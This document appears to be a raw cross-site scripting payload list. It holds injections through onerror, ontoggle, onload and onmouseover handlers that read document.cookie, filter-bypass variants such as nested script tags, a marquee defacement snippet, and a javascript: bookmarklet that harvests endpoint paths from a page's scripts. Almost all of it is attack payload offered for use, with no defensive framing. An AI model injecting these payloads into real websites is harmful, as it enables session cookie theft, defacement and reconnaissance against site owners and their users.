 # xss
<Img Src=OnXSS OnError=alert(document.cookie)>

<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">
';alert(document.cookie);//
<script>alert(1);</script>
'><img%20src%3D%22https://i.ibb.co/3SKZjXR/D3rk.png%22>
<img src="onmouseover="alert('xxs')"" style="max-width: 100%;">
getPreprint.php?File=oxcal.html
<scr<script>ipt>alert(1)</script>
</title><marquee><font color=lime size=32>x01-dz</font></marquee>
"><script>alert(1);</script>
"><svg/onload=confirm('/Xss/')>
<svg/onload=confirm('/Xss/')>
javascript:(function(){var (scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const results=new Set;for(var i=0;i<scripts.length;i++){var t=scripts[i].src;""!=t&&fetch(t).then(function(t){return t.text()}).then(function(t){var e=t.matchAll(regex);for(let r of e)results.add(r[0])}).catch(function(t){console.log("An error occurred: ",t)})}var pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const match of matches)results.add(match[0]);function writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
" onmouseover%3dprompt(/x01-dz/) bad%3d"
<svg onload='alert(1)'
<svg onload="alert(1)"
<svg onload=alert(1)//
<svg onload=alert(1)+
<svg onload=alert(1)<!--
